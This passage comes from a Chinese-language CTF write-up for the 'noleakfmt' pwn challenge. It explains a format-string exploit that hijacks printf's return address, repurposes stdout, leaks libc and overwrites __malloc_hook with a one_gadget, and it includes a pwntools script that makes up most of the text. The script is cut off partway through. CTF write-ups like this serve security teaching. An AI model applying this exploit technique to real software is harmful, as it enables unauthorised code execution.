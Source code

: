 可以将栈抬高0x90

[![](https://p3.ssl.qhimg.com/t01c03aa7f177675d78.jpg)](https://p3.ssl.qhimg.com/t01c03aa7f177675d78.jpg)

抬高0x90之后的printf函数栈空间是能够包含`_IO_2_1_stdout`的，两者栈的距离小于0x90

确定好目标之后我们要来修改printf的返回地址了，由于__libc_start_mian函数存在于start函数的调用链中，所以我们可以将返回地址修改为start函数。

首先像上面两题一样，我们先修改栈链，使得可以通过格式化字符串修改返回地址，将返回地址修改为start，由于start地址为0x7b0，我们一次写入两字节，会把倒数第四位清0，开启了pie，所以有1/16的几率修改成功。成功修改返回地址为start之后就会抬栈，接下来再故技重施，修改栈链，并且将stdout地址的后两位修改为0x90，从而修改fileno成员，使stdout重新输出，然后再修改malloc_hook为onegadget就好，再通过printf输出大量字符来触发onegadget就行(不想写了，后续利用和上一题一样的方式，阿巴阿巴阿巴)，exp如下

```
from pwn import *
context.log_level='debug'
elf=ELF('./noleakfmt')
libc=ELF('./libc-2.23.so')
start=0x7b0
onegadget=[0x45226,0x4527a,0xf0364,0xf1207]

def pwn():
    io.recvuntil("gift : 0x")
    stack=int(io.recv(12),16)
    log.success('stack =&gt; `{``}`'.format(hex(stack)))
    payload='%'+str((stack-0xc)&amp;0xffff)+'c%11$hn'
    io.sendline(payload)
    sleep(0.1)
    try:
        payload='%'+str(start)+'c%37$hn'
        io.sendline(payload)   
    except :
        io.close()
    else:
        sleep(0.1)
        payload='%'+str((stack-0x54)&amp;0xffff)+'c%10$hn'
        io.sendline(payload)    
        sleep(0.1)
        payload='%'+str(0x90)+'c%36$hhn'
        io.sendline(payload)
        sleep(0.1)
        payload='%'+str(0x2)+'c%26$hhn'
        io.sendline(payload)
        sleep(0.1)
        payload='%9$p'
        io.sendline(payload)
        io.recvuntil('0x')
        libc_base=int(io.recv(12),16)-libc.symbols['__libc_start_main']-240
        log.success('libc_base =&gt; `{``}`'.format(hex(libc_base)))
        one_gadget=libc_base+onegadget[3]
        log.success('one_gadget =&gt; `{``}`'.format(hex(one_gadget)))
        malloc_hook=libc_base+libc.symbols['__malloc_hook']
        log.success('malloc_hook =&gt; `{``}`'.format(hex(malloc_hook)))
        sleep(0.1)
        payload='%'+str(malloc_hook&amp;0xffff)+'c%36$hn'
        io.sendline(payload)
        sleep(0.1)
        payload='%'+str(one_gadget&amp;0xffff)+'c%26$hn'
        io.sendline(payload)
        sleep(0.1)
        payload='%'+str((malloc_hook+2)&amp;0xff)+'c%36$hhn'
        #gdb.attach(io)
        io.sendline(payload)
        sleep(0.1)
        payload='%'+str((one_gadget&gt;&gt;16)&amp;0xff)+'c%26$hhn'
        io.sendline(payload)
```